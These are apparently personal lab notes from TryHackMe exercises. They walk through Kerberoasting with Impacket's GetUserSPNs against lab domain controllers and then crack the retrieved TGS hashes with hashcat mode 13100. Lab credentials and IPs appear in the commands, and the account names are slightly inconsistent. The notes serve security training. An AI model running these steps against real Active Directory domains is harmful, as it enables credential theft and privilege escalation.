


GetUserSPNs
GetUserSPNs
Kerberoasting with Impacket
We will get the hash of service accounts
1.) cd /usr/share/doc/python3-impacket/examples/ - navigate to where GetUserSPNs.py is located
2.) sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.172.59 -request - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.
impacket-GetUserSPNs CONTROLLER.local/Administrator:'P@$$W0rd' -dc-ip 10.10.172.59 -request
3.) hashcat -m 13100 -a 0 hash.txt Pass.txt - now crack that hash
Once the hash is cracked we get the password.
Another Example of Kerberoasting with Impacket
Kerberoasting is a common AD attack to obtain AD tickets that helps with persistence. In order for this attack to work, an adversary must have access to SPN (Service Principal Name) accounts such as IIS User, MSSQL, etc. The Kerberoasting attack involves requesting a Ticket Granting Ticket (TGT) and Ticket Granting Service (TGS). This attack's end goal is to enable privilege escalation and lateral network movement. For more details about the attack, you can visit the THM Persisting AD room (Task 3).
Let's do a quick demo about the attack. First, we need to find an SPN account(s), and then we can send a request to get a TGS ticket. We will perform the Kerberoasting attack from the AttackBox using the GetUserSPNs.py python script. Remember to use the THM.red/thm account with Passw0rd! as a password.
Command:
GetUserSPNs.py -dc-ip 10.10.209.28 THM.red/thm

The previous command is straightforward: we provide the Domain Controller IP address and the domain name\username. Then the GetUserSPNs script asks for the user's password to retrieve the required information.
The output revealed that we have an SPN account, svc-user. Once we find the SPN user, we can send a single request to get a TGS ticket for the srv-user user using the -request-user argument.
Command:
GetUserSPNs.py -dc-ip 10.10.209.28 THM.red/thm -request-user svc-thm

Now, it is a matter of cracking the obtained TGS ticket using the HashCat tool using -m 13100